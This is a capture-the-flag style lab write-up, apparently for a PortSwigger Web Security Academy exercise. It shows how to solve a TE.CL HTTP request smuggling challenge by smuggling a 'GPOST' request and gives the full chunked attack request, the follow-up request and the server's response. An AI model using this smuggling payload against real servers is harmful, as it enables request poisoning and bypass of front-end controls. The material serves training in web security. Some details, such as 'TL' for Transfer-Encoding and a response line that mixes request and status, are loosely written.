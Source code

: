 ## 1. Introduction

This vulnerability is when the frontend uses the Transfer-Encoding header and the backend server uses the Content-Length header.

So, this means that the frontend server processes the TL using chunked encoding and determines the size of the body, while the backend processes the CL.
## 2. Challenge

Backend doesn't support chunked encoding, and rejects requests that aren't using GET or POST.

Smuggle a request to the backend server, so the next request processed by the backend appears to use the method GPOST.

## 3. Solution

Attack request:
```http
POST / HTTP/1.1
Host: 0aef00ce04274d208252ec7a00c1003c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

56
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

0

```

Normal request:
```http
POST / HTTP/1.1
Host: 0aef00ce04274d208252ec7a00c1003c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

foo=bar
```

The response is:
```http
POST / HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 27

"Unrecognized method GPOST"
```

## 4. Explanation
First the attack request is sent, and since it uses TE, we must include the number of bytes (hex) for the body.

```http
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
```

This chunk has 56(hex) bytes, so the backend will forward this as body to the backend, and the 0 in the end tells the end of the chunks to be sent.

But when the request goes to the backend, which uses Content-Length, the situation is different.

There we have the Content-Length to be 4, which means that only "56" will be processed in the request, and the remaining part:

```http
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

0
```

will be left for the next request.

Here, the Content-Length has been set to 6, even though the real content length is 5, because it needs to tell the backend that it should have additional data.

This is needed so when we send the next request "normal request", at least something will be appended and the method will be GPOST.